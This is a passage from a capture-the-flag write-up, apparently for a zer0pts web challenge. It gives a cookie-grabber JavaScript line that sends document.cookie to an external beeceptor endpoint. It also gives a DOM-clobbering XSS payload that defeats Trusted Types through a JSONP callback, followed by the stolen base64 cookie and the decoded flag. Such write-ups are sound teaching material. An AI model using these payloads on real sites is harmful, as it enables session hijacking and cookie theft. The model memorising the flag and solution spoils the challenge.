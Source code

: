 The cookie grabber script is the following. You have to set `Content-Type: application/javascript`.

```javascript
document.location='https://<REDACTED>.free.beeceptor.com/cookie/'+btoa(document.cookie)
```

So the final payload to submit is the following.

```html
theme=dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=x href=https://<REDACTED>.free.beeceptor.com/evil/></a><a id=callback href=//%250Ajsonp(x);></a><"
```

Under the `/cookie/` endpoint you will find the base64 encoded cookies with the flag.

![endpoints.png](endpoints.png)

```
ZmxhZz16ZXIwcHRzezFfdzRudF90MF9lNHRfZDBtX2QwbV9oNG1idXJnZXJfczBtZWQ0eX0=
```

Decoding it.

```
flag=zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}
```